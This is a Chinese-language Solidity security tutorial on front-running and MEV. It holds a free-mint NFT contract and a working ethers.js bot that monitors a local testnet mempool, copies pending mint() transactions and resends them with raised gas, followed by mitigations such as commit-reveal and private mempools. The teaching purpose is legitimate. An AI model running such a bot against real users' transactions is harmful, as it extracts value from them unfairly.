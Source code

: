 ```yaml
---
title: S11. 抢先交易
tags:
  - solidity
  - security
  - erc721
---
```


# WTF Solidity 合约安全: S11. 抢先交易

我最近在重新学 solidity，巩固一下细节，也写一个“WTF Solidity 极简入门”，供小白们使用（编程大佬可以另找教程），每周更新 1-3 讲。

推特：[@0xAA_Science](https://twitter.com/0xAA_Science)｜[@WTFAcademy_](https://twitter.com/WTFAcademy_)

社区：[Discord](https://discord.gg/5akcruXrsk)｜[微信群](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[官网 wtf.academy](https://wtf.academy)

所有代码和教程开源在 github: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

---

这一讲，我们将介绍智能合约的抢先交易（Front-running，抢跑）。据统计，以太坊上的套利者通过三明治攻击（sandwich attack）[共获利$12亿](https://dune.com/chorus_one/ethereum-mev-data)。

## Front-running

### 传统抢跑
抢跑最初诞生于传统金融市场，是一场单纯为了利益的竞赛。在金融市场中，信息差催生了金融中介机构，他们可以通过最先了解某些行业信息并最先做出反应从而实现获利。这些攻击主要发生在股票市场交易和早期的域名注册。

2021 年 9 月，NFT 市场 OpenSea 的产品负责人 Nate Chastain，被发现通过抢先购买将在 OpenSea 首页展示的 NFT 获利。
他利用内幕信息来获得不公平的信息差，OpenSea 将要在首页推送哪些 NFT，然后在展出在首页前抢先买入，然后再在 NFT 登上首页后卖出。然而，有一个人通过将 NFT 交易时间戳与 OpenSea 上有问题的 NFT 的首页促销进行匹配，发现了这一非法行为，Nate 也被告上法院。

另一个传统抢跑的例子包括是在代币上[币安](https://www.wsj.com/articles/crypto-might-have-an-insider-trading-problem-11653084398?mod=hp_lista_pos4)/[coinbase](https://www.protocol.com/fintech/coinbase-crypto-insider-trading)等知名交易所之前，会有得知内幕消息的老鼠仓提前买入。在上币的公告发出后，币价会大幅上涨，这时抢跑者会卖出盈利。

### 链上抢跑

链上抢跑指的是搜索者或矿工通过调高`gas`或其他方法将自己的交易安插在其他交易之前，来攫取价值。在区块链中，矿工可以通过打包、排除或重新排序他们产生的区块中的交易来获得一定的利润，而`MEV`是衡量这种利润的指标。

在用户的交易被矿工打包进以太坊区块链之前，大部分交易会汇集到Mempool（交易内存池）中，矿工在这里寻找费用高的交易优先打包出块，实现利益最大化。通常来说，gas price越高的交易，越容易被打包。同时，一些`MEV`机器人也会搜索`mempool`中有利可图的交易。比如，一笔在去中心化交易所中滑点设置过高的`swap`交易可能会被三明治攻击：通过调整gas，套利者会在这笔交易之前插一个买单，再在之后发送一个卖单，并从中盈利。这等效于哄抬市价。

![](./img/S11-1.png)

## 抢跑实践

如果你学会了抢跑，你就算是入门的币圈科学家了。接下来，让我们实践一下，抢跑一笔铸造NFT的交易。我们将会用到的工具：
- `Foundry`的`anvil`工具搭建本地测试链，请提前安装好 [foundry](https://book.getfoundry.sh/getting-started/installation)。
- `remix`进行NFT合约的部署和铸造
- `etherjs`脚本监听`mempool`并进行抢跑。

**1. 启动Foundry本地测试链：** 在安装好 `foundry` 之后，在命令行输入 `anvil --chain-id 1234 -b 10` 搭建本地测试链，chain-id 为 1234，每 10 秒产出一个区块。搭建成功后，它会在显示一些测试账户的地址和私钥，每个账户有 10000 ETH。你可以使用它们进行测试。

![](./img/S11-2.png)

**2. 将Remix连接到测试链：** 打开 Remix 的部署页面，打开左上角的`Environment`下拉菜单，选`Foundry Provider`即可将 Remix 连接到测试链。

![](./img/S11-3.png)


**3. 部署NFT合约：** 在 Remix 上部署一个简单的 freemint（免费铸造）NFT合约。它有一个`mint()`，用于免费铸造NFT。

```solidity
// SPDX-License-Identifier: MIT
// By 0xAA
pragma solidity ^0.8.4;
import "@openzeppelin/contracts/token/ERC721/ERC721.sol";

// 我们尝试frontrun一笔Free mint交易
contract FreeMint is ERC721 {
    uint256 public totalSupply;

    // 构造函数，初始化NFT合集的名称、代号
    constructor() ERC721("Free Mint NFT", "FreeMint"){}

    // 铸造函数
    function mint() external {
        _mint(msg.sender, totalSupply); // mint
        totalSupply++;
    }
}
```

**4. 部署ethers.js抢跑脚本：** 简单来说，`frontrun.js`脚本监听了测试链`mempool`中的未决交易，筛选出调用了`mint()`的交易，然后复制它并调高`gas`进行抢跑。如果你不熟悉`ether.js`，可以阅读[WTF Ethers极简教程](https://github.com/WTFAcademy/WTF-Ethers)。

```js
// provider.on("pending", listener)
import { ethers, utils } from "ethers";

// 1. 创建provider
var url = "http://127.0.0.1:8545";
const provider = new ethers.providers.WebSocketProvider(url);
let network = provider.getNetwork()
network.then(res => console.log(`[${(new Date).toLocaleTimeString()}] 连接到 chain ID ${res.chainId}`));

// 2. 创建interface对象，用于解码交易详情。
const iface = new utils.Interface([
    "function mint() external",
])

// 3. 创建钱包，用于发送抢跑交易
const privateKey = '0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a'
const wallet = new ethers.Wallet(privateKey, provider)

const main = async () => {
    // 4. 监听pending的mint交易，获取交易详情，然后解码。
    console.log("\n4. 监听pending交易，获取txHash，并输出交易详情。")
    provider.on("pending", async (txHash) => {
        if (txHash) {
            // 获取tx详情
            let tx = await provider.getTransaction(txHash);
            if (tx) {
                // filter pendingTx.data
                if (tx.data.indexOf(iface.getSighash("mint")) !== -1 && tx.from != wallet.address ) {
                    // 打印txHash
                    console.log(`\n[${(new Date).toLocaleTimeString()}] 监听Pending交易: ${txHash} \r`);

                    // 打印解码的交易详情
                    let parsedTx = iface.parseTransaction(tx)
                    console.log("pending交易详情解码：")
                    console.log(parsedTx);
                    // Input data解码
                    console.log("raw transaction")
                    console.log(tx);

                    // 构建抢跑tx
                    const txFrontrun = {
                        to: tx.to,
                        value: tx.value,
                        maxPriorityFeePerGas: tx.maxPriorityFeePerGas * 1.2,
                        maxFeePerGas: tx.maxFeePerGas * 1.2,
                        gasLimit: tx.gasLimit * 2,
                        data: tx.data
                    }
                    // 发送抢跑交易
                    var txResponse = await wallet.sendTransaction(txFrontrun)
                    console.log(`正在frontrun交易`)
                    await txResponse.wait()
                    console.log(`frontrun 交易成功`)                
                }
            }
        }
    });

    provider._websocket.on("error", async () => {
        console.log(`Unable to connect to ${ep.subdomain} retrying in 3s...`);
        setTimeout(init, 3000);
      });

    provider._websocket.on("close", async (code) => {
        console.log(
            `Connection lost with code ${code}! Attempting reconnect in 3s...`
        );
        provider._websocket.terminate();
        setTimeout(init, 3000);
    });    
};

main()
```

**5. 调用`mint()`函数：** 在 Remix 的部署页面调用 Freemint 合约的`mint()` 函数，进行 NFT 铸造。

**6. 脚本监听到交易并进行抢跑** 我们可以在终端看到 `frontrun.js` 脚本成功监听到了交易，并进行了抢跑。如果你调用 NFT 合约的 `ownerOf()` 函数查看 `tokenId` 为 0 的持有者是抢跑脚本中的钱包地址，证明抢跑成功！。
![](./img/S11-4.png)

## 预防方法

抢先交易是以太坊等公链上普遍存在的问题。我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益：

- 使用预提交方案(commit-reveal scheme)。
- 使用暗池，用户发出的交易将不进入公开的`mempool`，而是直接到矿工手里。例如 flashbots 和 TaiChi。

## 总结

这一讲，我们介绍了以太坊的抢先交易，也叫抢跑。这种起源于传统金融行业的攻击模式在区块链中更容易实施，因为所有的交易信息都是公开的。我们做了一个抢跑的时间：抢跑一笔铸造 NFT 的交易。当需要有类似的交易时，最好支持隐藏的内存池，或者实施批量拍卖等措施限制。它是以太坊等公链上普遍存在的问题，我们没法消除它，但是可以通过减少交易顺序或时间的重要性，减少被抢先交易的收益。
